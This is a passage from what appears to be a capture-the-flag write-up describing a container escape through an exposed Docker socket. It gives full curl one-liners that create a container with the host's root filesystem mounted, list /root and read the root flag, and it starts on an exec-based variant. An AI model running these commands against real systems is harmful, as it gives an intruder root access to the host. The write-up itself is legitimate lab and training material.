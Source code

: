 I’ll set both `stderr` and `stdout` to 1 to requests both, and then the results come back showing the contents of `/root`!

#### One-Liner

To play with this, I generated the following one-liner so that I could just push up-arrow, change the command, and then hit enter and get results:

```

root@2d24bf61767c:~# id=$(curl --unix-socket /var/run/docker.sock -s -X 'POST' -H 'Content-Type: application/json' --data-binary '{"Image": "sandbox:latest","HostConfig": {"Binds": ["/:/rootfs"]}, "Cmd": ["/bin/sh", "-c", "ls -l /rootfs/root/"], "Tty": true}' http://localhost/containers/create | cut -d'"' -f4); curl --unix-socket /var/run/docker.sock -s -X POST -H "Content-Type: application/json" http://localhost/containers/${id}/start; curl -s --unix-socket /var/run/docker.sock "http://localhost/containers/${id}/logs?stderr=1&stdout=1"
total 8
-rw-------    1 root     root            33 Sep  1 13:19 root.txt
drwxr-xr-x    3 root     root          4096 May 18 08:44 snap

```

From here I can grab `root.txt` by just changing the command:

```

root@2d24bf61767c:~# id=$(curl --unix-socket /var/run/docker.sock -s -X 'POST' -H 'Content-Type: application/json' --data-binary '{"Image": "sandbox:latest","HostConfig": {"Binds": ["/:/rootfs"]}, "Cmd": ["/bin/sh", "-c", "cat /rootfs/root/root.txt"], "Tty": true}' http://localhost/containers/create | cut -d'"' -f4); curl --unix-socket /var/run/docker.sock -s -X POST -H "Content-Type: application/json" http://localhost/containers/${id}/start; curl -s --unix-socket /var/run/docker.sock "http://localhost/containers/${id}/logs?stderr=1&stdout=1"
24d5f49db9f24f6e87b35ebe1c53e796

```

### Run Commands w/ Host FS [Method #2]

This box seems to be clearing out containers every few minutes. Because of that, I preferred to use the above method to just create a new container each command. That said, in an engagement where OPSEC mattered more, I’d create one instance, and then run commands using the `exec` [API](https://docs.docker.com/engine/api/v1.30/#tag/Exec).

The first two steps are the same - create and start an instance. This time, I’ll create it without the `Cmd` parameter:

```

root@2d24bf61767c:~# id=$(curl --unix-socket /var/run/docker.sock -s -X 'POST' -H 'Content-Type: application/json' --data-binary '{"Image": "sandbox:latest","HostConfig": {"Binds": ["/:/rootfs"]}, "Tty": true}' http://localhost/containers/create | cut -d'"' -f4); curl --unix-socket /var/run/docker.sock -s -X POST -H "Content-Type: application/json" http://localhost/containers/${id}/start

```

Now I’ll add a command, which will return an ID:
